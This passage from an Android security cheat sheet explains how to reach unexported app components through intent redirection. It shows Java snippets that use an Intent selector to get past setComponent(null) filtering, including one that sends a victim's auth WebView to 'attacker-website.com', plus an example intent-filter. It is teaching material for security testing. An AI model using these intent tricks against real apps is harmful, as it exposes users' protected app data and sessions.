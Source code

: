 By itself, starting hidden components does not have much security impact and requires abuse of the functionality of the hidden components:
- [Oversecured: Access to app protected components: Escalation of attacks via Content Providers](https://blog.oversecured.com/Android-Access-to-app-protected-components/#escalation-of-attacks-via-content-providers)
- [Oversecured: Access to app protected components: Attacks on Android File Provider](https://blog.oversecured.com/Android-Access-to-app-protected-components/#attacks-on-android-file-provider)
- [Oversecured: Gaining access to arbitrary* Content Providers](https://blog.oversecured.com/Gaining-access-to-arbitrary-Content-Providers/)

### Access arbitrary components via WebView

{% raw %} {% embed url="https://0xn3va.gitbook.io/cheat-sheets/android-application/webview-vulnerabilities#access-arbitrary-components" %} {% endraw %}

### Bypass protection

Developers can implement a filtering of received intents and [explicitly set a component to handle the intent](https://developer.android.com/reference/android/content/Intent#setComponent%28android.content.ComponentName%29) to `null`:

```java
intent.setComponent(null);
```

In this case, you can bypass the app's explicit intent protection by specifying an unexported component via a [selector](https://developer.android.com/reference/android/content/Intent#setSelector%28android.content.Intent%29):

```java
Intent intent = new Intent();
intent.setSelector(new Intent().setClassName("com.victim", "com.victim.AuthWebViewActivity"));
intent.putExtra("url", "http://attacker-website.com/");
```

The selector will be used when trying to find entities that can handle the Intent, instead of the main contents of the Intent.

However, developers can explicitly set a selector to `null`:

```java
intent.setComponent(null);
intent.setSelector(null);
```

Even so, you can create an implicit intent to match the `intent-filter` of some unexported activity:

```xml
<activity android:name=".AuthWebViewActivity" android:exported="false">
    <intent-filter>
        <action android:name="android.intent.action.VIEW" />
        <category android:name="android.intent.category.DEFAULT" />
        <data android:scheme="victim" android:host="secure_handler" />
    </intent-filter>
</activity>
```
